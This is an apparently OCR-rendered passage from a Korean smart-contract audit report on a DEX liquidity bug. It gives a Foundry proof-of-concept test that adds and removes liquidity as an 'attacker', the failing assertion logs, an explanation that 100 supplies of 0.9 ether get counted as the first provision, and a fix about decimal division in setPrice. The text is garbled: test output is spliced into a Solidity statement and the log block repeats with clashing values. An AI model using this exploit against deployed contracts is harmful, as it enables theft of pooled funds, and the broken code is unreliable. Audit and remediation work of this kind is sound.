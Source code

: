            // uint LPReturn = dex.addLiquidity(1 ether, 1 ether, 0);

            uint LPReturn = dex.addLiquidity(1 ether, 1 ether, 0);

            (uint tx, uint ty) = dex.removeLiquidity(LPReturn, 0, 0);
            emit log_named_uint("Attacker LP remove", tx);
            emit log_named_uint("Attacker LP remove", ty);
            assertEq(tx, 1 ether);
            assertEq(ty, 1 ether);
            vm.stopPrank();

            uint LPReturn2 = dex.addLiquidity(0.9 ether, 0.9 ether, 0);

            (uint tx2, uint ty2) = dex.removeLiquidity(LPReturn2, 0, 0);
            emit log_named_uint("Attacker LP2 remove", tx2);
            emit log_named_uint("Attacker LP2 remove", ty2);
            assertEq(tx2, 0.9 ether);
            assertEq(ty2, 0.9[FAIL. Reason: Assertion failed.] testSetPrice() (gas: 1961494)
    Logs:
      X balance: 90000000000000000000
      Y balance: 90000000000000000000
      Attacker LP remove: 91000000000000000000
      Attacker LP remove: 91000000000000000000
      Error: a == b not satisfied [uint]
            Left: 91000000000000000000
           Right: 1000000000000000000
      Error: a == b not satisfied [uint]
            Left: 91000000000000000000
           Right: 1000000000000000000
      Attacker LP2 remove: 900000000000000000
      Attacker LP2 remove: 900000000000000000 ether);
            vm.stopPrank();
        }
    ```
    ```jsx
    [FAIL. Reason: Assertion failed.] testSetPrice() (gas: 1961494)
    Logs:
      X balance: 90000000000000000000
      Y balance: 90000000000000000000
      Attacker LP remove: 91000000000000000000
      Attacker LP remove: 91000000000000000000
      Error: a == b not satisfied [uint]
            Left: 91000000000000000000
           Right: 1000000000000000000
      Error: a == b not satisfied [uint]
            Left: 91000000000000000000
           Right: 1000000000000000000
      Attacker LP2 remove: 1000000000000000000
      Attacker LP2 remove: 1000000000000000000
    ```
    -   TokenX와 TokenY를 각각 0.9 ether씩 100번 공급하고, 이후 1 ether씩을 공급해준다.
    -   지금까지 공급된 양이 전부 첫 유동성 공급으로 반영된다.
    -   이후 공급된 유동성에 대해서는 문제 없이 반영된다.

### 해결방안

-   setPrice에서 decimal로 나누지 않아야 한다.
-   나눗셈 등 decimal이 직접적으로 사용되지 않아도 되는 부분에서의 사용을 지양해야 한다.
